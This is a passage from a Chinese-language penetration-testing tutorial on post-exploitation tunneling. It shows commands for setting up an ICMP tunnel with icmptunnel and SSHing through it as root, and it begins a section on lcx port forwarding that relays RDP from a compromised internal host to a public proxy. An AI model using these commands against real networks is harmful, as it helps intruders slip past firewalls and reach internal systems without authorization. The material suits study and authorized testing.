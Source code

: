 ```
/sbin/ifconfig tun0 10.0.0.1 netmask 255.255.255.0	# 指定一个网卡tun0，用于给隧道服务器端分配一个IP地址 (10.0.0.1)
```

在目标机上运行：

```
echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all
./icmptunnel 172.16.214.6
```

在目标机上新开启一个终端运行：

```
/sbin/ifconfig tun0 10.0.0.2 netmask 255.255.255.0	# 指定一个网卡tun0，用于给隧道服务器端分配一个IP地址 (10.0.0.2)
```

至此，已经通过 ICMP 建立了一个点对点隧道。

在攻击机上，尝试通过 ssh 进行连接，可以看到通过刚才建立的隧道成功连接到目标机。

```
ssh root@10.0.0.2
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-04-07_16-35-09.png)

# 0x07 lcx、netcat 和 socat 的使用

## 1、lcx 使用

lcx 分为 Windows 版和 Linux 版，Linux 版叫 portmap

### Windows

* 内网端口转发

```
内网失陷主机
lcx.exe -slave rhost rport lhost lport

公网代理主机
lcx.exe -listen lport1 lport2
```

```
内网失陷主机
lcx.exe -slave 123.123.123.123 4444 127.0.0.1 3389

公网代理主机
lcx.exe -listen 4444 5555
```

在建立连接后，访问公网代理主机的 5555 端口就能访问到内网失陷主机的 3389 端口了。

* 本地端口映射

如果目标主机不能出网，这时可以利用内网中能够出网的主机，将其不能出网的主机端口映射到自身上，再借助端口转发到公网进行访问。
